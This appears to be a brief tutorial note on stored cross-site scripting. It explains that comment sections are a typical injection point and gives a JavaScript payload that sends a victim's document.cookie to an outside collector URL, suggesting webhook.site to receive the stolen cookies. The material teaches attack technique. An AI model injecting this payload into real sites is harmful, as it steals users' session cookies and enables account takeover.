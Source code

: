 ### Stored XSS

---

- Stored XSS happens when the data received is stored in HTTP responses in an unsafe way
- Comment section
- Same payloads


#### Stealing cookies

```js
<script>
document.write('<img src="[URL]?c='+document.cookie+'" />');
</script>
```

Use `webhook site` to view the responses


